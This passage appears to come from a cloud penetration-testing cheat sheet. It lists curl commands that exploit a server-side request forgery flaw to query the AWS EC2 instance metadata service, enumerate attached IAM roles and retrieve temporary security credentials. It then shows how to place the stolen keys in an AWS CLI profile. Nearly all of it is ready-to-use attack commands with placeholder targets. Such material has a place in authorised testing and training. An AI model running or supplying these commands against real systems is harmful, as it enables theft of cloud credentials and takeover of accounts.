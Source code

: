 ### 4.1 Temporary Security Credentials

- **Retrieve temporary credentials from instance metadata**  
   ```bash
   curl <TARGET_IP>:<PORT>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<ROLE_NAME>
   ```

- **Configure AWS CLI profile using temporary credentials**  
   Add the credentials to `~/.aws/credentials`:
   ```plaintext
   [<PROFILE_NAME>]
   aws_access_key_id=<ACCESS_KEY_ID>
   aws_secret_access_key=<SECRET_ACCESS_KEY>
   aws_session_token=<SESSION_TOKEN>
   ```

### 4.2 Instance Metadata Service (IMDS) Enumeration

- **Query EC2 instance metadata**  
   ```bash
   curl <TARGET_IP>:<PORT>/?url=http://169.254.169.254/latest/meta-data
   ```

- **Get IAM Role attached to the EC2 instance**  
   ```bash
   curl <TARGET_IP>:<PORT>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials
   ```

---
